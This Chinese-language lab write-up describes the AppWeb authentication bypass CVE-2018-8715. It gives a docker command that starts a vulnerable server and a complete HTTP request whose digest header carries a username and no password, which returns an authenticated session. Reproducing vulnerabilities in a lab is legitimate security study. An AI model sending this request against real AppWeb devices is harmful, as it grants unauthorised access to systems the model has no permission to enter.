


# AppWeb认证绕过漏洞（CVE-2018-8715）

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

参考链接：

- https://ssd-disclosure.com/index.php/archives/3676

## 漏洞环境

执行如下命令启动一个带有digest认证的Appweb 7.0.1服务器：

```
docker-compose up -d
```

访问`http://your-ip:8080`，可见需要输入账号密码。

## 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：



设置这个session到浏览器，即可正常访问需要认证的页面：


